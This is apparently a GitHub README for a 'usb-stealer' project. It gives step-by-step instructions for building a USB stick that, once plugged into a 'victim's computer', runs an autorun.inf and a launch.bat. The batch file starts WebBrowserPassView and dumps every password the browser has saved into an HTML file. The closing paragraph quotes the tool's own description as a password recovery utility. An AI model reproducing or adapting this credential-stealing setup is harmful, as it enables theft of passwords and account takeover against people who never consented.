# usb-stealer

Hi ✋
My mini-project  is USB stealer 
The idea is very simple by inserting USB to the victim's computer 💻  and remove it and the output is getting all saved passwords.
Tools used WebBrowserPassView from nirosft
 Steps:All in USB   - Creating an autorun file to launch the app after inserting the USB
  - Creating launch.bat file  - Copy  WebBrowserPassView.exe


Detail:*   Open notepad and type:       [Autorun]open=launch.batAnd save it as an autorun.inf
Open notepad and type: 
Start  WebBrowserPassView.exe /shtml output.html

And save is as launch.bat

Now Our USB is ready 
How it's work:WebBrowserPassView go when passwords are saved and copy it 






------------------------------------------
WebBrowserPassView is a password recovery tool that reveals the passwords stored by the following Web browsers: Internet Explorer (Version 4.0 - 11.0), Mozilla Firefox (All Versions), Google Chrome, Safari, and Opera. This tool can be used to recover your lost/forgotten password of any Web site, including popular Web sites, like Facebook, Yahoo, Google, and Gmail, as long as the password is stored by your Web Browser.  
